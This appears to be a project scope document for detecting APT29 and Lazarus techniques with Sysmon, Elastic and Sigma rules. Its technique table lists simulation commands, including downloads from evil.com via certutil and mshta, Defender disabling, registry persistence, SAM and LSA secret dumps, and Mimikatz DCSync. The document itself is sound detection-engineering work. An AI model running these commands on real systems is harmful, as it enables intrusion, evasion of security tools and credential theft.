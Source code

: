 # TTP Scope – APT Detection Project

## Selected APT Groups

* **APT29 (Cozy Bear)** — stealthy intrusions, heavy PowerShell usage, credential access, process injection, DCSync.
* **Lazarus Group** — persistence via registry/run keys & startup folders, LOLBins (mshta, rundll32), SMB/WMI lateral movement, tool staging.

## Detection Scope & Data Sources

* **Windows endpoint telemetry** via **Sysmon** (EIDs 1/3/8/11/13) and **Security logs** (4662, 5140) shipped by **Winlogbeat** to **Elastic**.
* Rule languages by use-case: **KQL** (single events), **EQL** (sequence/correlation), **ES|QL** (hunting/aggregation).
* **Sigma is source of truth**; we adapt/compile to Elastic query languages.

## Techniques in Scope (with rule language & simulation plan)

| Technique ID  | Name                                             | Primary Log Source(s)                                                          | Rule Lang | Sim / Trigger                                                           | Why in Scope                             | Mapping to Groups  |      |
| ------------- | ------------------------------------------------ | ------------------------------------------------------------------------------ | --------- | ----------------------------------------------------------------------- | ---------------------------------------- | ------------------ | ---- |
| **T1059.001** | PowerShell – EncodedCommand                      | Sysmon **EID 1** (ProcessCreate)                                               | **KQL**   | `powershell.exe -enc <b64>`                                             | Common obfuscation/execution path        | APT29, Lazarus     |      |
| **T1053.005** | Scheduled Task Creation                          | Sysmon **EID 1**                                                               | **KQL**   | `schtasks /create /sc onlogon ...`                                      | Persistence & execution                  | Both               |      |
| **T1047**     | WMI Execution                                    | Sysmon **EID 1**, optional **EID 3**                                           | **KQL**   | `wmic process call create "cmd /c calc"`                                | Remote execution/lateral move            | APT29              |      |
| **T1105**     | Ingress Tool Transfer                            | Sysmon **EID 3** (NetworkConnect), **EID 1** (`certutil.exe`, `bitsadmin.exe`) | **KQL**   | `certutil -urlcache -f http://evil.com/evil.exe`                        | Tool download                            | Lazarus            |      |
| **T1547.001** | Registry Run Keys / Startup Folder Persistence   | Sysmon **EID 13** (RegistrySet), **EID 11** (FileCreate)                       | **KQL**   | `reg add HKCU\Software\...\Run /v Evil` or drop `evil.lnk` in Startup   | Lightweight persistence                  | Both               |      |
| **T1218.010** | Regsvr32 (Squiblydoo)                            | Sysmon **EID 1**                                                               | **KQL**   | `regsvr32 /s /u /i:http://... scrobj.dll`                               | Signed binary proxy execution            | APT29              |      |
| **T1218.011** | Rundll32 Proxy Execution                         | Sysmon **EID 1**                                                               | **KQL**   | `rundll32.exe javascript:...`                                           | Execution proxy                          | Both               |      |
| **T1218.005** | Mshta Execution                                  | Sysmon **EID 1**                                                               | **KQL**   | `mshta http://evil.com/payload`                                         | LOLBin abuse                             | Lazarus            |      |
| **T1112**     | Modify Registry (Security Controls / IFEO / UAC) | Sysmon **EID 13**                                                              | **KQL**   | `reg add HKLM\...\Image File Execution Options\malware.exe /v Debugger` | Defense evasion                          | Both               |      |
| **T1562.001** | Disable/Weaken Security Tools                    | Sysmon **EID 1**, **EID 13**                                                   | **KQL**   | `powershell Set-MpPreference -DisableRealtimeMonitoring $true`          | Disable Defender                         | Both               |      |
| **T1569.002** | Service Execution                                | Sysmon **EID 1**                                                               | **KQL**   | `sc create evil binpath= C:\evil.exe`                                   | Privilege escalation & persistence       | Both               |      |
| **T1055**     | Process Injection (CreateRemoteThread)           | Sysmon **EID 8** (ProcessAccess)                                               | **EQL**   | Atomic Red Team process injection                                       | Stealthier in-memory execution           | APT29              |      |
| **T1021.002** | Lateral Movement via Admin Shares                | Security **5140**, Sysmon **EID 1/11**                                         | **KQL**   | `copy evil.exe \\target\ADMIN$\`                                        | Admin share abuse                        | Lazarus            |      |
| **T1573**     | Encrypted C2 over TLS                            | Sysmon **EID 3** (NetworkConnect)                                              | \*\*ES    | QL\*\*                                                                  | Sim TLS beaconing with Cobalt Strike     | Hidden C2 channels | Both |
| **T1003.002** | SAM Dump                                         | Sysmon **EID 1**, **EID 11**                                                   | **KQL**   | `reg save hklm\sam sam.hiv`                                             | Credential access                        | APT29              |      |
| **T1003.004** | LSA Secrets Dump                                 | Sysmon **EID 1**                                                               | **KQL**   | `reg query HKLM\SECURITY\Policy\Secrets`                                | Credential access                        | APT29              |      |
| **T1003.006** | DCSync                                           | Security **4662**                                                              | **KQL**   | Mimikatz `lsadump::dcsync`                                              | Credential access via replication rights | APT29              |      |

